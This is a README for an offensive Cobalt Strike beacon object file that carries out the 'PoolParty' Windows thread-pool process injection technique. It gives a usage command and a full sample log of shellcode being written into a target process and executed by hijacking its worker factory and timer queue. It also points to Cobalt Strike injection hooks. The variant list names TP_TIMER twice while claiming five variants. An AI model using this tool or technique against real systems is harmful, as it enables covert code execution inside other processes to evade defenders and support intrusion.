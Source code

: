 # PoolParty BOF

A beacon object file implementation of [PoolParty Process Injection Technique](https://github.com/SafeBreach-Labs/PoolParty/) by [@_SafeBreach_](https://www.safebreach.com/) and [@_0xDeku_](https://twitter.com/_0xDeku), that abuses Windows Thread Pools. The BOF supports the 5 technique/variant:
- Insert TP_TIMER work item to the target process's thread pool.
- Insert TP_ALPC work item to the target process's thread pool.
- Insert TP_JOB work item to the target process's thread pool.
- Insert TP_DIRECT work item to the target process's thread pool.
- Insert TP_TIMER work item to the target process's thread pool.

I will try to keep adding remaining variants.

## Usage
```
PoolPartyBof <Process ID> <Listener Name>
```

- Usage Examples

```
beacon> PoolPartyBof 7216 HTTPSLocal
[*] Opening 7216 and running PoolParty with HTTPSLocal listener!
[+] host called home, sent: 314052 bytes
[+] received output:
[INFO] 	Shellcode Size: 307204 bytes
[+] received output:
[INFO] 	Starting PoolParty attack against process id: 7216
[+] received output:
[INFO] 	Retrieved handle to the target process: 00000000000003F0
[+] received output:
[INFO] 	Hijacked worker factory handle from the target process: 00000063245AF458
[+] received output:
[INFO] 	Hijacked timer queue handle from the target process: 00000063245AF458
[+] received output:
[INFO] 	Allocated shellcode memory in the target process: 0000029B99E10000
[+] received output:
[INFO] 	Written shellcode to the target process
[+] received output:
[INFO] 	Retrieved target worker factory basic information
[+] received output:
[INFO] 	Created TP_TIMER structure associated with the shellcode
[+] received output:
[INFO] 	Allocated TP_TIMER memory in the target process: 0000029B99E60000 
[+] received output:
[INFO] 	Written the specially crafted TP_TIMER structure to the target process
[+] received output:
[INFO] 	Modified the target process's TP_POOL timer queue WindowsStart and Windows End to point to the specially crafted TP_TIMER
[+] received output:
[INFO] 	Set the timer queue to expire to trigger the dequeueing TppTimerQueueExpiration
[+] received output:
[INFO] 	PoolParty attack completed successfully
```

![](img/PoolPartyBof.png)

> The BOF can be further used with [Process Injection Hooks](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/malleable-c2-extend_control-process-injection.htm) provided within Cobaltstrike, and [Rastamouse](https://twitter.com/_RastaMouse) has a perfect [blog](https://offensivedefence.co.uk/posts/cs-process-inject-kit/) too.


### Credits and Orginal Work
- [Blackhat Slides](https://www.blackhat.com/eu-23/briefings/schedule/#the-pool-party-you-will-never-forget-new-process-injection-techniques-using-windows-thread-pools-35446)
- [Alon Leviev](https://twitter.com/_0xDeku)
- [SafeBreach](https://www.safebreach.com/)
